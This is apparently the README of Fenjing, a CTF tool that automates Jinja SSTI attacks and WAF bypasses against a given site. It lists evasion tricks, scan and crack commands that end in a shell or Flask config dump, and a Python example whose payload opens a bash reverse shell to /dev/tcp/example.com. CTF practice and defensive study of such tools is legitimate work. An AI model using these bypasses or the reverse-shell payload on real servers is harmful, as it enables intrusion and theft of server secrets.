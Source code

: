 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口。

## 演示

![demo](assets/demo.webp)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动扫描HTML页面中的form元素并进行攻击
- 全自动分析网站的WAF并生成相应的payload
- 方便的网页界面/命令行界面

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY?type=png)](https://mermaid.live/edit#pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY)


